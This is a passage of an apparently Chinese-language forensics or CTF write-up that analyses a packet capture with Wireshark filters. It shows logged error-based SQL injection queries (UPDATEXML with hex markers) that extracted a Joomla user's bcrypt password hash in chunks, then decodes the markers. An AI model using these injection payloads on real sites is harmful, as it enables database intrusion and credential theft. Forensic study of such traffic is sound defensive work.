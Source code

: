 ```
(ip.addr == 192.168.1.8 || ip.addr == 202.1.1.2) &amp;&amp; http contains "password" &amp;&amp; http.request.method==POST
```

但是并没有找到有效登录<br>[![](https://p1.ssl.qhimg.com/t01847e70faefd6ee60.jpg)](https://p1.ssl.qhimg.com/t01847e70faefd6ee60.jpg)<br>[![](https://p4.ssl.qhimg.com/t0128a0500c1b97ba12.jpg)](https://p4.ssl.qhimg.com/t0128a0500c1b97ba12.jpg)<br>
随机我想在sql注入中寻找密码

```
ip.dst == 192.168.1.8 &amp;&amp; http contains "password"
```

[![](https://p0.ssl.qhimg.com/t018976295e6d54c680.jpg)](https://p0.ssl.qhimg.com/t018976295e6d54c680.jpg)<br>
三条信息分别回显

```
Status: 500 XPATH syntax error: 'qqzvq$2y$10$lXujU7XaUviJDigqqkkq' SQL=SELECT (UPDATEXML(5928,CONCAT(0x2e,0x71717a7671,(SELECT MID((IFNULL(CAST(password AS CHAR),0x20)),1,22) FROM joomla.ajtuc_users ORDER BY id LIMIT 0,1),0x71716b6b71),7096)),uc.name AS editor FROM `ajtuc_ucm_history` AS h LEFT JOIN ajtuc_users AS uc ON uc.id = h.editor_user_id WHERE `h`.`ucm_item_id` = 1 AND `h`.`ucm_type_id` = 1 ORDER BY `h`.`save_date`

Status: 500 XPATH syntax error: 'qqzvqFMzKy6.wx7EMCBqpzrJdn7qqkkq' SQL=SELECT (UPDATEXML(3613,CONCAT(0x2e,0x71717a7671,(SELECT MID((IFNULL(CAST(password AS CHAR),0x20)),23,22) FROM joomla.ajtuc_users ORDER BY id LIMIT 0,1),0x71716b6b71),7939)),uc.name AS editor FROM `ajtuc_ucm_history` AS h LEFT JOIN ajtuc_users AS uc ON uc.id = h.editor_user_id WHERE `h`.`ucm_item_id` = 1 AND `h`.`ucm_type_id` = 1 ORDER BY `h`.`save_date`

Status: 500 XPATH syntax error: 'qqzvqzi/8B2QRD7qIlDJeqqkkq' SQL=SELECT (UPDATEXML(8949,CONCAT(0x2e,0x71717a7671,(SELECT MID((IFNULL(CAST(password AS CHAR),0x20)),45,22) FROM joomla.ajtuc_users ORDER BY id LIMIT 0,1),0x71716b6b71),3079)),uc.name AS editor FROM `ajtuc_ucm_history` AS h LEFT JOIN ajtuc_users AS uc ON uc.id = h.editor_user_id WHERE `h`.`ucm_item_id` = 1 AND `h`.`ucm_type_id` = 1 ORDER BY `h`.`save_date`
```

可以看到数据

```
qqzvq$2y$10$lXujU7XaUviJDigqqkkq
qqzvqFMzKy6.wx7EMCBqpzrJdn7qqkkq
qqzvqzi/8B2QRD7qIlDJeqqkkq
```

我们观察sql构造，发现具有前缀和后缀

```
0x71717a7671
0x71716b6b71
```

解码后得到

```
qqzvq
qqkkq
```
